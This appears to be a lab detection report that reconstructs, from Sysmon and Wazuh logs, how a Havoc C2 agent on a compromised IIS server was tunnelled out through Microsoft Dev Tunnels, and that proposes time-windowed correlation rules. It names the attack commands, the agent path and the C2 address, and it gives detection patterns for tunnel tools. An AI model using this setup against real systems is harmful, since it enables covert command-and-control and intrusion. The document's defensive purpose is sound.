



# Detection Report - Stage 2: Command & Control (Havoc over MS Dev Tunnels)

> **Cross-reference:** `02-command-and-control.md` - attack execution detail 
> **Target Host/Victim/Agent in this scope:** 10.20.30.2 (Windows 10 Pro x64)
> **Log sources:** Sysmon (SwiftOnSecurity config), shipped via Wazuh agent → Wazuh Cloud 
> **Modeled precondition:** RCE via Stage 1 has not yet been implemented in this lab. For the purposes of this report, code execution is assumed established, with `w3wp.exe` as the parent of the first PowerShell instance. This is a modeled/simulated precondition, not captured telemetry  everything from that point forward reflects real Sysmon behavior for the actions described.

---

## 1. What Actually Happened

With a foothold assumed after Stage 1, the operator needed a durable, interactive channel back to the Havoc C2 server (`172.11.20.131`) without ever exposing that IP directly to the DMZ's outbound traffic. The solution: route C2 traffic through Microsoft's own Dev Tunnels infrastructure, so that from the network's perspective, the DMZ host is just making a normal outbound HTTPS connection to a Microsoft-owned endpoint.

Two separate actions were needed to make that work, launched as two independent PowerShell invocations, both children of the same `w3wp.exe` foothold:

- One PowerShell instance runs `devtunnel connect swift-horse-cf65l2s.asse`  establishes the tunnel client.
- A second, separate PowerShell instance runs the Havoc payload, the actual agent that will beacon out.

Critically: **the order between these two doesn't matter for the attack to function.** The devtunnel client was launched first in this simulation, but the same result holds in reverse payload first, tunnel second. Because the Havoc agent connects to `127.0.0.1` locally and relies on whichever tunnel client picks that traffic up and forwards it out. That non-determinism is a design fact you have to bake into the detection logic: a rule built on strict "A must precede B" ordering will miss the reverse case.

---

## 2. The Event Chain - An Analyst's Walkthrough

Imagine pulling this up in Wazuh after the fact, reconstructing what happened purely from Sysmon events on IIS_Server.

### Branch A: The tunnel client launches

**Event ID 1 (Process Creation)**

```
ParentImage: C:\Windows\System32\inetsrv\w3wp.exe
Image:       C:\Users\client\AppData\Local\Microsoft\WinGet\Packages\Microsoft.devtunnel Microsoft.Winget.Source_8wekyb3d8bbwe\devtunnel.exe
CommandLine: devtunnel connect swift-horse-cf65l2s.asse
```

First thing that should stop an analyst: `w3wp.exe` - the IIS worker process has no legitimate reason to spawn _anything_, let alone a developer tunneling tool. IIS serving web requests doesn't shell out to PowerShell, and PowerShell doesn't legitimately launch `devtunnel.exe` on a production web server. This is the anomaly that should anchor the whole investigation, not the tunnel activity itself by the time you're looking at devtunnel, the process-creation anomaly already happened one level up.



**Event ID 3 (Network Connection)**

```
Image: devtunnel.exe
DestinationIP: 20.197.80.108
DestinationPort: 443
```

This is where the story gets genuinely hard to detect on IP reputation alone. The destination is legitimate Microsoft infrastructure not the actual C2 server (`172.11.20.131`), which never appears anywhere in this host's logs. An analyst doing IP blocklisting or even IDS signature matching (Suricata static rules) gets nothing here; the traffic looks exactly like a developer using Dev Tunnels for its intended purpose. The only thing that makes this suspicious is _what process is making the connection, on what kind of host_ a DMZ-facing IIS server has no business running Dev Tunnels at all.



### Branch B: The payload launches (independently)

**Event ID 1 (Process Creation)**

```
ParentImage: C:\Windows\System32\inetsrv\w3wp.exe
Image:       C:\Users\Public\Downloads\exec_AD.exe   (Havoc agent)
CommandLine: C:\Users\Public\Downloads\exec_AD.exe .\Tunnel.bin
```

Same anchor anomaly as Branch A, `w3wp.exe` spawning an unrecognized binary. This is a _second_, independent instance of PowerShell, not a child of the first, meaning Wazuh sees two separate suspicious process trees rooted at the same parent within a short window, rather than one linear chain. That's actually a stronger signal than a single chain would be: one anomalous child process from `w3wp.exe` could be a fluke or a misconfigured admin script; two, close together, both non-standard, is much harder to explain away as noise.



**Event ID 3 (Network Connection)**

```
Image: exec_AD.exe
DestinationIP: 127.0.0.1
```

This is the pairing that matters most. The Havoc agent doesn't talk to the internet directly, it connects to loopback, where the devtunnel client (Branch A) is listening locally and forwarding traffic out through the Microsoft-hosted tunnel. Seen in isolation, a process connecting to `127.0.0.1` looks unremarkable, plenty of legitimate software does that. Seen _alongside_ Branch A's Event ID 3 to a Microsoft Dev Tunnels IP, occurring close together in time, it stops looking unremarkable: two different unrecognized processes, one talking to loopback, the other bridging that loopback traffic out over TLS to Microsoft infrastructure, both spawned from the same web-server process. That correlation not either event alone is the actual detection.

---

## 3. Why the Correlation Has to Be Windowed, Not Sequential

Because Branch A and Branch B are independent PowerShell launches, and their order is interchangeable (devtunnel-then-payload worked in this simulation, but payload-then-devtunnel would work identically), a detection rule that requires "Event X must occur _after_ Event Y" will silently fail against the reverse case. The correct model is a **time-windowed correlation**: both signatures (1) an unrecognized process spawned from `w3wp.exe` connecting to loopback, and (2) a separate unrecognized process spawned from `w3wp.exe` connecting outbound to Dev Tunnels infrastructure occurring within some bounded window (e.g., 5–10 minutes) of each other, regardless of which fires first.

This is also worth distinguishing from the _beacon_ timing (2s delay, 50% jitter) mentioned in the execution doc that cadence describes the ongoing C2 traffic pattern _after_ the channel is established, and is a separate, longer-running detection opportunity (beacon/frequency analysis over time) from the one-time launch correlation described above. Don't conflate the two: launch correlation catches the setup; beacon analysis catches the persistence of the channel afterward.

---

## 4. Detection Logic

**Primary rule (process anomaly + loopback/tunnel pairing):**

- Trigger 1: `ParentImage == w3wp.exe` AND `Image IN (devtunnel.exe, known-Havoc-agent-hashes)` — Event ID 1.
- Trigger 2: Within N minutes of Trigger 1, a _second, distinct_ process (different Image, different ProcessGuid) also spawned from `w3wp.exe`, with an Event ID 3 to `127.0.0.1` (if it's the payload) or to a Dev Tunnels IP range (if it's the tunnel client).
- Correlate on shared `ParentProcessGuid` + time window, not on strict event ordering.

**Supporting/lower-confidence rule (network behavior alone):**

- Any process on a DMZ-zone, non-developer-designated host establishing outbound HTTPS to `*.devtunnels.ms` flag for review regardless of process ancestry, since legitimate use of Dev Tunnels on a production IIS server should not exist in the first place.

---

## 5. Gaps and Blind Spots

- **No visibility into the actual C2 server.** `172.11.20.131` is attacker infrastructure, not a monitored asset, Wazuh has zero telemetry there. Everything in this report is reconstructed from the victim side only.
- **Event ID 3 dependency.** This entire correlation assumes Sysmon Event ID 3 is actively logging for these processes. Under a stock SwiftOnSecurity configuration this is often filtered or limited, confirm your deployed config actually captures Event ID 3 for non-standard processes before relying on this rule in production; if it doesn't, the loopback/tunnel-IP pairing in this report is unobservable and you're left with process-creation anomalies (Event ID 1) alone.
- **No Windows Security Event Log correlation in this stage.** Not directly relevant to C2 setup, but worth flagging for consistency with later stages (token impersonation, lateral movement) where 4624/4672/4688 become necessary and Sysmon alone won't cover it.
- **IP reputation / signature-based IDS (static Suricata rules) are explicitly ineffective here**, the destination is legitimate, trusted Microsoft infrastructure. This report deliberately does not rely on that layer.
- **Modeled precondition caveat.** Since Stage 1 RCE isn't implemented, the `w3wp.exe` parent-process claim is an assumption based on typical IIS RCE behavior, not something pulled from an actual alert. Once Stage 1 is implemented, this section should be revisited and replaced with the real parent process observed.